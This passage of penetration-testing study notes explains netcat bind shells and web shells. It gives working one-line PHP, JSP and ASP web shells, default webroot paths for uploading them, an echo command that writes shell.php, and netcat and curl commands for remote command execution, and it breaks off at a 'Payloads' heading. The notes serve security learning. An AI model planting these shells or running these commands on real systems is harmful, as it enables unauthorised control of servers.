 ![image](https://user-images.githubusercontent.com/96747355/175835567-7bb7a51d-7761-4cc8-983a-cc7087dacaac.png)  

> *Source:[hackingtutorials.org](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/)*

- We connect to the target. "Binds" to a specific port on the target host and waits for a connection from our attack box.
- Example
  - in our target we can do `nc -nlvp 4444 -e /bin/bash`
  - in our attacking machine we can do `nc TARGET-IP 4444`

### Web shell

- Runs operating system commands via the web browser, typically not interactive or semi-interactive. It can also be used to run single commands (i.e., leveraging a file upload vulnerability and uploading a PHP script to run a single command.
- Communicates through a web server, accepts our commands through HTTP parameters, executes them, and prints back the output.

#### PHP Web shell

```php
<?php system($_REQUEST["cmd"]); ?>
```

#### JSP webshell

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

#### ASP webshell

```c#
<% eval request("cmd") %>
```

#### Where to upload it

|Web Server|Default Webroot|
|----------|---------------|
|Apache|`/var/www/html/`|
|Nginx|`/usr/local/nginx/html/`|
|IIS|`c:\inetpub\wwwroot\`|
|XAMPP|`C:\xampp\htdocs\`|

- `echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php` bash command for an Apache web server on linux
- To access it `shell.php?cmd=id` with the browser
- `curl http://SERVER_IP:PORT/shell.php?cmd=id` with the command line

## Payloads
